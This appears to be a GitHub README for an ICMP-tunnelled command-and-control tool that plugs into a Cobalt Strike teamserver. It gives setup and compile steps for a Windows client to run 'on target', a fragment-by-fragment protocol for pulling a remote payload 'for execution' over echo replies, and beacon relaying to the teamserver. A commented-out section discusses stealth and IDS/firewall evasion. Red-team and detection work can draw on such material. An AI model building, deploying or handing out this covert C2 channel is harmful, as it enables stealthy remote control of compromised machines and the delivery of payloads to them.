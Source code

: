 # ICMP C2 Protocol Overview

This document provides a high‐level description of how our ICMP-based command-and-control (C2) channel works. It explains the core handshake (Type 8 → Type 0) and how larger payloads are fragmented and reassembled.

---

## Key Concepts

- **ICMP Echo Request (Type 8)**: Used by the client (“agent”) to signal the server (“controller”) and request data.
- **ICMP Echo Reply (Type 0)**: Used by the controller to embed and send replies (including large payloads) back to the client.
- **TAG (4 bytes)**: A fixed 4-byte marker (e.g. `RQ47`) prepended to every ICMP payload, so that unrelated OS pings or network noise are ignored.
- **Chunking**: When the controller needs to send more data than fits in one ICMP packet (500 bytes), it splits the payload into multiple fragments. Each fragment still carries the same 4-byte tag.

---
# Setup:

1. Install dependencies:

```
sudo apt install libpcap0.8-dev
```

```
pip install -r Controller/Python/requirements.txt
```


2. Start an External C2 beacon in CS

3. Edit the following fields in these files:

`controller.py`:
```
TEAMSERVER_IP = "10.10.10.21" # change to Teamserver IP (127.0.0.1 works if running on same box)
TEAMSERVER_PORT = 2222        # Change to Teamserver Port
```

`client_x86.c`:
```
#define ICMP_CALLBACK_SERVER "172.19.241.197" //change to controller IP
```

There are other fields you can edit in both `controller.py` and `client_x86.c`,
see each file for those settigns

4. Compile the Client `i686-w64-mingw32-gcc client_x86.c -o client_x86.exe -lws2_32`
> 64 bit mingw may work as well, I have not tested this yet.

5. run `python3 Controller/Python/controller.py`

5. Run the compiled `client_x86.exe` on target.

---
## Overall Flow

1. **Client: “Seq 0” Size Request**  
   - The client opens a raw ICMP socket.  
   - It builds a small ICMP Echo Request (Type 8) whose payload is:  
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_expected]
     ```  
   - The client sends this as **sequence 0**.  
   - Purpose: inform the controller how many bytes of data it plans to receive.

2. **Controller: Immediate “Seq 0” Reply (Size Confirmation)**  
   - The controller’s sniffer sees an ICMP packet where:  
     - Type == 8 (Echo Request)  
     - Payload starts with `TAG`  
     - Sequence == 0  
   - It extracts the 4-byte length, allocates a receive buffer of that size, and immediately responds with an ICMP Echo Reply (Type 0), also marked as **sequence 0**. Its payload is:  
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_to_send]
     ```  
   - This confirms to the client that the server is ready to send exactly that many bytes.

3. **Controller: Sending Data Fragments (Seq 1..N)**  
   - If the data to send exceeds the single-packet limit (≈500 bytes total), the controller splits it into fragments of up to (500 − 4) = 496 bytes each.  
   - For each fragment **i** (starting at 1), the controller sends an ICMP Echo Reply (Type 0) with:  
     ```
     Sequence = i  
     Payload = [TAG][next 496 bytes of data]
     ```  
   - If the payload fits in one chunk, only “seq 1” is used. Otherwise, multiple replies arrive in sequence.

4. **Client: Reassembly Loop**  
   - After sending “seq 0” and waiting, the client’s raw socket filters incoming packets, accepting only:  
     - ICMP packets of Type 0 (Echo Reply)  
     - Matching its own process ID  
     - Payload beginning with `TAG`  
   - When **seq 0** arrives, the client reads the 4-byte length, allocates a buffer, and computes how many fragments it expects:  
     ```
     total_chunks = ceil(total_size / 496)
     ```  
   - For each subsequent reply **seq = 1..total_chunks**, the client copies the data portion (i.e., bytes after the TAG) into the right offset in the buffer. Once all fragments are received, the full payload is ready for execution or further processing.

5. **Beaconing & TeamServer Forwarding (Seq > 0)**  
   - After the initial C2 payload, the client may send extra frames (e.g., “beacon” or “task” data). Each of these is sent as an ICMP Echo Request (Type 8) with:  
     ```
     Sequence = X (> 0)  
     Payload = [TAG][user_data…]
     ```  
   - The controller, upon spotting `seq > 0`, strips `TAG` and forwards the remaining bytes to the TeamServer over a TCP socket.  
   - Any response from the TeamServer is sent back in a single ICMP Echo Reply (Type 0) with:  
     ```
     Sequence = X  
     Payload = [TAG][TeamServer_response]
     ```  
   - This ensures a 1:1 mapping of in-flight beacon frames to replies, using the same sequence number to correlate.

---

## Packet Structure Summary

- **Client → Controller (Seq 0)**  
  ```
  IP Header (20 bytes)
  └─ ICMP Header (8 bytes): Type=8, Code=0, ID=<PID>, Seq=0
     └─ Payload (500 bytes total): [“RQ47”][4-byte total_size][padding…]
  ```

- **Controller → Client (Seq 0 Reply)**  
  ```
  IP Header (20 bytes)
  └─ ICMP Header (8 bytes): Type=0, Code=0, ID=<PID>, Seq=0
     └─ Payload (500 bytes total): [“RQ47”][4-byte total_size][padding…]
  ```

- **Controller → Client (Seq i Reply)**  
  ```
  IP Header (20 bytes)
  └─ ICMP Header (8 bytes): Type=0, Code=0, ID=<PID>, Seq=i
     └─ Payload (<=500 bytes): [“RQ47”][up to 496 bytes of data]
  ```

- **Client → Controller (Seq i Request, after C2 payload)**  
  ```
  IP Header (20 bytes)
  └─ ICMP Header (8 bytes): Type=8, Code=0, ID=<PID>, Seq=i
     └─ Payload (<=500 bytes): [“RQ47”][up to 496 bytes of beacon/command data]
  ```

- **Controller → Client (Seq i Reply, TeamServer data)**  
  ```
  IP Header (20 bytes)
  └─ ICMP Header (8 bytes): Type=0, Code=0, ID=<PID>, Seq=i
     └─ Payload (<=500 bytes): [“RQ47”][TeamServer response data]
  ```



<!-- ## Advantages & Caveats

- **Quietness**: Leverages legitimate ICMP traffic.  
- **Minimal Dependencies**: Only raw sockets and basic ICMP parsing.  
- **Fragility**: No built-in session encryption or integrity checks—relying solely on the 4-byte TAG for filtering.  
- **IDS/Firewall Risk**: Large or unusual ICMP payloads may trigger alerts. Payloads are chunked to 496 bytes to avoid fragmentation, but the TAG may still look suspicious.

---

## Usage Notes

1. **Client setup**: Must open a raw ICMP socket with permission.  
2. **Controller setup**: Needs elevated privileges to sniff and send raw ICMP.  
3. **Tag matching**: Both sides ignore any ICMP not starting with `RQ47`, preventing OS replies from disrupting reassembly.  
4. **Timeouts**: The client’s recv loop should have a timeout (e.g. 5 seconds) to abort if fragments never arrive.  
5. **TeamServer traffic**: After the initial C2 payload, any “seq > 0” Echo Requests are forwarded to the TeamServer over plain TCP; replies come back in a single ICMP Echo  -->